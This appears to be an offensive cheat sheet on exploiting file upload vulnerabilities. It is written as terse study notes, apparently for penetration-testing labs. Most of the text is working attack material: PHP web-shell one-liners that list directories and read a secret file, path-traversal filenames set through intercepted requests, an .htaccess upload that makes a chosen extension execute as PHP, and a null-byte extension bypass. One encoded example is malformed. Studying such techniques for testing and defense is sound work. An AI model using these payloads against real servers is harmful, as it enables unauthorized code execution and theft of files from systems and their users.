 --- ---

<h2>Important</h2>

Type of file upload Vulnerablity
```Terminal
- Overwriting
- Client Side Bypass
	- Bypass Filtering (HTML)
	- Changing Extension ---> (.php3, .php4, .php5, .php7, .phps, .php-s, ...)
- Server Side Bypass
	- Changing Extension ---> (.php3, .php4, .php5, .php7, .phps, .php-s, ...)
	- Magic Number       ---> 
```

---

<h2>Commands</h2>

Directory Infiltration (Client Side)
```
# List the directory
<?php echo implode("<br>",array_diff(scandir('/home/User_X/'),array('.','..'))); ?>

# List specific file
<?php echo file_get_contents('/home/User_X/secret'); ?>
```
- It is possisble to send the php into jpg and intercept the request with burpsuite (change the name of the file from  x.jpg to x.php)


Directory Infiltration using Path transversal (Client Side)
```
# Use Path Transversal to send the file to an other dir (Diff dir that allow execution code)
# Change the following in BurpSuite
try --> Content-Disposition: form-data; name="SOMETHING"; filename="../exploit.php"
URL Encode -->Content-Disposition: form-data; name="SOMETHING"; filename="..%2exploit.php"

# Make a request to the destination using ..%2
Visit the website x.com/files/SOMETHING/..%2fexploit.php
```
- Possible to use prior steps to bypass restriction on upload


Directory Infiltration (Server directive that mapp an arbitrary extension) --> Upload 2 files
```
# Verify the type of the server (Example: Apache, Nginx, Microsoft IIS, ...)
--> Send a POST request and check the result to identify the server (Or others ways)

# Verify the documentation on how to change/allow modifying the content type
# Will use Apache in the example

# Upload a JPG and change the request (filename: .htaccess / Content-Type = text/plain)
application/x-httpd-php .EXTENSION-DESIRED  ---> Include this under the file
# This will allow your code with the .EXTENSION-DESIRED to run has php

# Use the same request from the JPG upload and upload your php code (filename: X.EXTEN...)
<?php echo file_get_contents('/home/User/secret'); ?>

# Load the image on the browser or visit the URL display by the image
```
- Possible to use prior steps to bypass restriction on upload


Directory Infiltration # via obfuscated file extension
```
# Try uploading the enable file (Ex: jpg), intercept te request and modify the name
exploit.php%00.jpg      ---> Using null byte can allow you to bypass this
```
- Possible to use prior steps to bypass restriction on upload